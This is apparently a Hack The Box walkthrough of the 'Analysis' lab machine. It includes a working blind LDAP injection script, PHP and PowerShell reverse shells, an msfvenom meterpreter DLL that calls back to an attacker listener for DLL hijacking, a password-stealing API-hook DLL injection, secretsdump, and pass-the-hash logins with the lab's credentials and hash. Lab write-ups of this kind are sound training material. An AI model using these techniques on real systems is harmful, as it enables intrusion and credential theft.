




---
---

# HTB - Analysis

```bash
nmap 10.129.230.179 -A -Pn

```


```bash
sudo nmap -sUV -T4 -F --version-intensity 0 10.129.230.179

```


Host: **DC-ANALYSIS**

Domain: **analysis.htb**

- Add to /etc/hosts


- Didn't find anything on the site
And no directories

**<u>Subdomain enumeration:</u>**

```bash
gobuster dns -d analysis.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -r analysis.htb:53

```


- Add internal.analysis.htb to /etc/hosts


- Dirsearch (without recursive **-r**):

`dirsearch -u http://internal.analysis.htb -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50`


- Good wordlist for extensions:

```bash
/usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files-lowercase.txt

```
- Search for extensions:

```bash
dirsearch -u http://internal.analysis.htb/users -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files-lowercase.txt -r -t 50
```


```bash
dirsearch -u http://internal.analysis.htb/employees -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files-lowercase.txt -r -t 50
```




- We get  `http://internal.analysis.htb/dashboard/404.html`  but it's just a template:


- Login panel but we don't have credentials:

`http://internal.analysis.htb/employees/login.php`


- Going to  `http://internal.analysis.htb/users/list.php`  - we get:


- Since the list is under Users - we can assume one of the parameters could be "**name"**?


- It's not a SQL or NoSQL database - checked with Sqlmap
More like an information table.

- LDAP injection:


- By inserting an asterisk \* in the parameter value:


- We get a user **technician**

- The technician user could have his password or other information in his description

- Changing the parameters, doesn't give new information - so this could be blind LDAP injection

- Using the format:
**name=\*)(%26(objectClass=\*)(description=\*)**


- We still get technician back:


- We can bruteforce the description field - like blind SQLi
Using one char at a time:


- If the chosen character is incorrect we get this:


- But if it's correct:


- We get the technician user:



- And so keep adding one char at a time:


- If the character you guessed is an asterisk \* - The output will produce nothing:


So the next character needs to be guessed in order to estimate whether \* is part of the word.

(Tip: Save the asterisk \* till last, and guess everything else first)


- **<u>Blind LDAP injection script:</u>**

```python
import requests
import urllib.parse

def main():
    charset_path = "/usr/share/seclists/Fuzzing/alphanum-case-extra.txt"
    base_url = "http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description={found_char}{FUZZ}*))"
    found_chars = ""
    skip_count = 6
    add_star = True

    with open(charset_path, 'r') as file:
        for char in file:
            char = char.strip()
            # URL encode the character
            char_encoded = urllib.parse.quote(char)

            # Check if '*' is found and skip the first 6 '*' characters
            if '*' in char and skip_count > 0:
                skip_count -= 1
                continue

            # Add '*' after encountering it for the first time
            if '*' in char and add_star:
                found_chars += char
                print(f"[+] Found Password: {found_chars}")
                add_star = False
                continue

            modified_url = base_url.replace("{FUZZ}", char_encoded).replace("{found_char}", found_chars)
            response = requests.get(modified_url)

            if "technician" in response.text and response.status_code == 200:
                found_chars += char
                print(f"[+] Found Password: {found_chars}")
                file.seek(0, 0)  # Reset to beginning of charset file

if __name__ == "__main__":
    main()

```


technician : **97NTtl\*4QP96Bv**

**technician@analysis.htb**

- We can now login to:

`http://internal.analysis.htb/employees/login.php`


- Going to the SOC Report page, we can upload a file:
When I first uploaded the pentest monkey reverse_php, it failed.

But **I removed the leading comments and renamed it (it does check the name)**

And it uploaded:


- Set up a listener:

```bash
rlwrap -cAr nc -lvnp 4445

```
Navigating to **dashboard/uploads/test.php**


- I get an error and the shell fails:


- This is because the shell is for Linux

- The way I got a reverse shell was:
First I uploaded a .php file (from revshells) containing :


- That gave me a web input box, where I can input commands in cmd


So I got a Powershell reverse shell \#2 from revshells:


- And we got a shell


- It's all in French:



- Upload winPEAS


- Found credentials for a user:
**jdoe : 7y4Z4^\*y9Zzj**

- Test the credentials with CME:

```bash
crackmapexec smb analysis.htb -u jdoe -p 7y4Z4^*y9Zzj

```


- Get a shell:

```bash
evil-winrm -i analysis.htb -u jdoe -p "7y4Z4^*y9Zzj"

```



cat user.txt

**<u>Priv Esc Method 1: Snort DLL Hijacking</u>**

- Downloaded the latest winPeasAny.exe script
<https://github.com/carlospolop/PEASS-ng/releases/tag/20240303-ce06043c>

- Running that gave me:


- Looking through the Snort files - we get a config file:


- In the config file, we are particularly interested in this line:


As it says that it calls on the dll file - **sf_engine.dll**

- Now if we look in snort_dynamicengine dir - there is a file with that name in there


- But it isn't in the **snort_dynamicpreprocessor** dir

- We have write permissions for this folder:

```bash
icacls snort_dynamicpreprocessor

```


- We can leverage this by uploading our own dll file into this directory and wait for it to be loaded

- Create a malicious dll:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.84 LPORT=4444 -f dll -o sf_engine.dll

```
- Start listener:

```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.10.14.84; set lport 4444; exploit"

```
- Upload the malicious dll:


- Wait for a shell:


```bash
evil-winrm -u Administrateur -H "584d96946e4ad1ddfa4f8d7938faf91d" -i 10.129.242.35

```
**<u>Priv Esc Method 2: API Hooking - DLL Injection</u>**

- In the /private directory, we can see an encrypted file that was encrypted using BCTextEncoder


- Download BCTextEncoder.exe.exe:


- Running the program, we can see that we need to provide a password (I opened a windows server vm to test on)


- If we look at the running processes:


We can see BCTextEncoder but also two other processes (with the same name) that gets spawned from it

- If I look at the processes on my Windows VM (because it has a GUI):


We can see just that

- The thing is, the process ID (PID) stays the same, as long as the program is open

- But on the Victim machine (HTB box), they keep changing. So someone must keep opening it and entering the password potentially


**<u>To exploit this, we need:</u>**

- To find the API that stores the entered password and hook it
- Create a x86 malicious DLL, to will be injected into the process
- Create a x86 injector.exe that will inject the DLL file
- The process ID for TextEncode

**TL:DR - Use the precompiled files on my github <https://github.com/player23-0/BCTextEncoder_DLL_injection>**

If you want to follow the logic behind the exploit - continue:

**<u>Step 1:</u>**
- Open a Windows VM

- Download APIMonitor:

`http://www.rohitab.com/downloads`

- Upload the BCTextEncoder that we downloaded

- Open APIMonitor 32bit
Make sure all filters are ticked:


- Now go to File -\> Monitor New Process


- Now click the Pause Monitor button - this allows the BCTextEncoder to pop up


- And then Resume again:


- In the BCTextEncoder - Add some text and then click Encode and enter a password.
I entered Rambo12345


- Now we need to find the right process:


There are two TextEncoder processes.

We need to look through the threads for each, to find which one holds our password in plaintext

- Click on a thread and click inside the Summary bit and press Ctrl+F
- Now type the password you entered


- We can see that the API function is **WideCharToMultiByte**


**<u>Step 2:</u>**

Now that we know that, we need to write a DLL that can bypass this function and run our own function to save the credentials


- We already know that the function to be bypassed is **WideCharToMultiByte**


- There is a code repo that already does this, we just need to modify the API function and then record the password
The repo is called RDPThief

<https://github.com/0x09AL/RdpThief/tree/master>

The API hooking rewritten code is as follows:


The above code explained:

**Function Pointer Setup:** The code creates a function pointer named TrueWideCharToMultiByte that points to the original WideCharToMultiByte function. This allows the program to call the original function even though it's going to intercept calls to it.

**Custom Function**: It then defines a new function, \_WideCharToMultiByte, which is meant to replace the original WideCharToMultiByte function. This new function does something special before calling the original function.

**Parameters Passed Through:** When \_WideCharToMultiByte is called, it takes all the parameters it received and passes them directly to the original WideCharToMultiByte function using the TrueWideCharToMultiByte pointer. This ensures that, from the perspective of the rest of the program, \_WideCharToMultiByte behaves exactly like the original WideCharToMultiByte.

**Extra Functionality:** Before passing the call to the original function, \_WideCharToMultiByte does an additional task: it calls WriteCredentials. This is where it records or logs some decrypted password information. Essentially, it's sneaking in some extra work before letting the original function do its job.

In even simpler terms: Imagine you have a friend who always goes to buy coffee from the same coffee shop. One day, you give them a new map that routes them through a park (your custom function) where you've asked them to drop off a letter (the extra task) before they continue to the coffee shop. Your friend still gets their coffee by following the original path after the detour, just like the program still calls the original WideCharToMultiByte function after doing the extra work.

- Git clone the RDPThief repo
- Open the Project in Visual Studio and modify RDPThief.cpp by using my PasswordThief.dll code:


- The code is in C++, Select **Release and x86** before building

**<u>Test it</u>**

- Download Process Hacker 2
- Open Process Hacker
- Open BCTextEncoder

- You should see this:


- Now right click one of the TextEncoder processes and go to Miscellaneous -\> Inject DLL


- Choose the PasswordThief.dll we made

- Now right click the process and got to Properties -\> Modules and see if the dll was loaded


- With my code, I added a MessageBox function just for POC , but it can be removed (line 36)


We can see here that the MessageBox popped up

- The password was written to %TEMP%\data.bin


- And decoding does the same:


**<u>Step 3:</u>**

- This was by far the hardest part
- None of the github repos helped, neither did modules like post/windows/manage/reflective_dll_inject or PowerSploit's Invoke-dllinjection module

- This one repo did help me massively - to figure out which technique works with my DLL:
<https://github.com/milkdevil/injectAllTheThings>

- I created my own injector program

- The hardest part was figuring out what DLL injection method to use as only one worked for me:
**RtlCreateUserThread**


- The code for injector.exe:


- I tested this on my Windows VM first

**<u>Step 4:</u>**

- Upload the injector.exe and the PasswordThief.dll to the Victim (HTB) machine
- Open two evil-winrm terminals
- Because the PID's keep changing - you need to be quick when injecting the DLL
- I injected it in both TextEncode processes because I didn't know which one it will be

Usage: **injector.exe \<FULL Path to DLL\> \<Process_PID\>**

(Tested on Windows 11, Server 2016, 2019)


- We can see that data.bin got created:


- Using the password we just got, we can decode the encoded.txt file in C:\private

- Copy the contents to BCTextEncoder and enter the password:


- We get a password for wsmith
**DMrB8YUcC5%2**

```bash
evil-winrm -i 10.129.242.35 -u wsmith -p "DMrB8YUcC5%2"

```


- I uploaded SharpHound


WSmith has ForceChangePassword on SOC_Analyst which has GenericAll to Domain Admins


- Now we can dump the hashes from the DC:

```bash
impacket-secretsdump soc_analyst:'Password123!'@10.129.242.35 -dc-ip 10.129.242.35

```


```bash
evil-winrm -u Administrateur -H "584d96946e4ad1ddfa4f8d7938faf91d" -i 10.129.242.35

```

